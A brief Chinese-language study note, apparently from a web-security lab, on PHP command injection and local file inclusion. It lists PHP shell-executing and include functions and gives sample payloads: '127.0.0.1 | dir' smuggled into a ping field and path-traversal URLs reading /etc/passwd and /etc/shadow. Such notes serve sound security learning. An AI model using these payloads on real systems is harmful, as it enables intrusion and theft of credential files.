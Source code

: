 







# RCE简单命令执行

## 在php里可以作为命令执行的函数：

`system    exec    shell_exec    pcntl_exec    popen proc_popen    passthru`

！！！

## ping

127.0.0.1 | dir



## evel

即会把我们提交的东西直接当做php语法来执行。

——抓包，修改





# File include简单文件包含

文件包含——把它包含的东西当做php代码执行【php会解析】不包含的东西不解析。

## 可以使用文件包含的函数：

`include    include_once     require     require_once`



## local 本地文件包含

### linux中如果出现本地文件包含：

`xxx.php?file=../../../../../../../../etc/passwd`

`xxx.php?file=../../../../../../../../etc/shadow`

可以利用文件包含命令一直退到能读取它们的系统文件



### windows中如果出现文件包含：

`xxx.php?file=../../../../../../../../../../haha.txt`
